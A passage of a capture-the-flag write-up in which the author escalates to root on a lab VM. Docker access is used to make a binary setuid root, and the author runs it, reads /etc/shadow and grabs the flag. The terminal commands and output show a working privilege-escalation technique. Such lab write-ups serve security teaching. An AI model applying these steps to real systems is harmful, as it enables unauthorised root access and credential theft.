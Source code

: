 {{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ docker exec -it persist /bin/bash
root@d407a4a053b1:/# cd /persist/
root@d407a4a053b1:/persist# ls -l 
total 12
-rwxrwxr-x 1 1000 adm 8656 Apr 23 07:57 exploit
root@d407a4a053b1:/persist# chown root:root exploit 
root@d407a4a053b1:/persist# chmod 4777 exploit 
root@d407a4a053b1:/persist# ls -l 
total 12


-rwsrwxrwx 1 root root 8656 Apr 23 07:57 exploit
root@d407a4a053b1:/persist# exit
{{< / highlight >}}

From our unprivileged shell:

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ cd persist/
hummingbirdscyber@vulnvm:~/persist$ ./exploit 
root@vulnvm:~/persist# id
uid=0(root) gid=4(adm) groups=4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(docker),1000(hummingbirdscyber)
root@vulnvm:~/persist# 
{{< / highlight >}}

I grabbed `/etc/shadow` and poked around a bit, but I didn't find anything new or exciting, so let's grab the flag.

{{< highlight markdown >}}
root@vulnvm:~# cd /root/
root@vulnvm:/root# ls
flag
root@vulnvm:/root# cat flag 
Congratulations!                    



                                    


                              -ys-                                                               
                                /mms.                                                            
                                  +NMd+`                                                         
                               `/so/hMMNy-                                     
                                 `+mMMMMMMd/           ./oso/-                           
                                  `/yNMMMMMMMMNo`   .`   +-                   
                                  .oyhMMMMMMMMMMN/.     o.                  
                                    `:+osysyhddhs`    `o`                  
                                     .:oyyhshMMMh.   .:                      
                                  `-//:. `:sshdh: `                         
                                             -so:.                           
                                            .yy.                              
                                          :odh                            
                                        +o--d`                 
                                      /+. .d`                           
                                    -/`  `y`                                  
                                  `:`   `/                                    
                                 `.     `                    
root@vulnvm:/root# 
